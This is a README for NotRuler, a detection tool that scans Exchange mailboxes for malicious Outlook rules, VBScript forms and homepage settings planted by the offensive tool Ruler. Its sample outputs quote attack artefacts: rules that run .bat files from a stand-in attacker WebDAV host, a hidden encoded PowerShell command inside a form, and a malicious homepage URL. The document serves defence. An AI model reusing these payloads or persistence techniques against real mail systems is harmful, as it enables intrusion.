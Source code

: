 # Introduction

NotRuler is the opposite of [Ruler]. The tool aims to make life a little easier for Exchange Admins by allowing for the detection of both client-side rules and VBScript enabled forms. At a miminum this should allow for the detection of all attacks created through [Ruler].

NotRuler allows you to interact with Exchange servers remotely, through either the MAPI/HTTP or RPC/HTTP protocol.

## What does it do?

NotRuler can query one or more Exchange mailboxes and detects client-side Outlook rules and VBScript enabled forms.

* Allows Exchange Admins to check for compromise
* Check your own account for compromise
* Extract stager address for Malicious rules
* Extract VBScript used in forms
* Check for 'homepage' and extract URL

# Getting Started

Compiled binaries for Linux, OSX and Windows are available. Find these in [Releases]
information about setting up Ruler from source is found in the [getting-started guide].

# Usage

NotRuler has two modes of operation:

* Rules -- check for client-side rules
* Forms -- check for VBScript enabled forms
* Homepage -- check for a custom homepage

## Rules

The current version of NotRuler can check either a single or multiple mailboxes. These are supplied in the program arguments.

To check multiple mailboxes, create a file with one account per line:

```
john.ford@testdomain.com
henry.hammond@testdomain.com
james.smith@testdomain.com
cindy.shell@testdomain.com
```

Using the Exchange Admin account, you should be able to log into any mailbox on the Exchange server:

```
./notruler --username exchangeadmin --mailboxes /path/to/mailbox.list rules
```

You can also check your own account by using ```--self```

```
./notruler --username john.ford@testdomain.com --mailbox john.ford@testdomain.com --self rules
```


Sample output:

```
[+] Checking [john.ford@testdomain.com]
[+] Found 5 rules
[WARNING] Found client-side rule: [01000000d97851c4:pewpew3] Application: [\\myhost.somewhere.darkside.com\dav\morebad.bat]
[WARNING] Found client-side rule: [01000000d97851b9:pewpew] Application: [\\myhost.somewhere.darkside.com\dav\bad.bat]
[+] Checking [cindy.shell@testdomain.com]
[+] No Rules Found
[+] Checking [henry.hammond@testdomain.com]
[+] No Rules Found
[+] Checking [james.smith@testdomain.com]
[+] No Rules Found
```

## Forms

Same as with Rules, you need to either have a list of mailboxes or a single mailbox to check. Simply swap "rules" for "forms":

Using the Exchange Admin account, you should be able to log into any mailbox on the Exchange server:

```
./notruler --username exchangeadmin --mailboxes /path/to/mailbox.list forms
```

You can also check your own account by using ```--self```

```
./notruler --username john.ford@testdomain.com --mailbox john.ford@testdomain.com --self forms
```

Sample output:

```
[+] Checking [john.ford@testdomain.com]
[WARNING] Found form with VBScript! [IPM.Note.badform]
    Function P()
CreateObject("Wscript.Shell").Run "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAFkAUwB0AEUAbQAuAE4AZQBUAC4AUwBFAHIAdgBJAGMAZQBQAG8ASQBOAFQATQBBAG4AYQBHAEUAcgBdADoAOgBFAHgAcABlAGMAVAAxADAAMABDAG8ATgB0AGkATgBVAEUAIA=="

[+] Checking [cindy.shell@testdomain.com]
[+] Checking [henry.hammond@testdomain.com]
[+] Checking [james.smith@testdomain.com]
```

## Homepage
 
And the same again, you need to either have a list of mailboxes or a single mailbox to check. 
 
Using the Exchange Admin account, you should be able to log into any mailbox on the Exchange server:
 
```
./notruler --username exchangeadmin --mailboxes /path/to/mailbox.list homepage
```
 
You can also check your own account by using ```--self```
 
```
./notruler --username john.ford@testdomain.com --mailbox john.ford@testdomain.com --self homepage
```
 
Sample output:
 
```
[+] Checking [john.ford@testdomain.com]
[WARNING] Found endpoint: http://attack.attackpew.com/rce.html
[+] Webview is set as ENABLED
[+] Checking [cindy.shell@testdomain.com]
[+] Checking [henry.hammond@testdomain.com]
[+] Checking [james.smith@testdomain.com]
```
 

# IOCs

I've added a list of IOC's here: [iocs.md](https://github.com/sensepost/notruler/blob/master/iocs.md)

Feel free to submit Issues/PRs with further IOCs!

# License
[![License: CC BY-NC-SA 4.0](https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg)](http://creativecommons.org/licenses/by-nc-sa/4.0/)

NotRuler is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0/) Permissions beyond the scope of this license may be available at http://sensepost.com/contact/.


[Ruler]: <https://github.com/sensepost/ruler>
[Releases]: <https://github.com/sensepost/notruler/releases>
